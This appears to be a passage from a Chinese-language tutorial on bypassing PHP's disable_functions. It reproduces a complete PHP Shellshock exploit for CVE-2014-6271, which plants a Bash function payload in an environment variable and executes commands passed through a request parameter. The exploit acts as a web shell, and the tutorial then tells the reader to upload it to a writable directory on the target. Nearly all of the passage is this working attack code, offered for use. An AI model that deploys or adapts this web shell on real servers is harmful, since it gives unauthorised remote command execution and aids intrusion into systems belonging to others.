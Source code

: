 ```
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

选择可上传目录路径,上传exp

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002007-5346618c-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002007-5346618c-fc52-1.png)
